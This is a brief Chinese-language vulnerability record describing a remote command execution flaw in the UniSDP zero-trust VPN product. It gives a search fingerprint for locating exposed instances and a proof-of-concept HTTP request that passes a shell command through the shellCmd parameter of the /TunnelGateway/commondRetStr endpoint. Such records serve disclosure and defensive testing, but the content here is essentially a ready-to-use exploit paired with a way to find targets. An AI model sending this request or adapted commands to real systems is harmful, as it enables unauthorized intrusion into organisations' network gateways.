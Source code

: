 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

```
联软安界 UniSDP 软件定义边界系统
```

## 网络测绘

```
title="UniSSOView"
```

## 漏洞复现

登录页面

![image-20230314090312164](images/image-20230314090312164.png)

验证POC

```
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![image-20230314090322883](images/image-20230314090322883.png)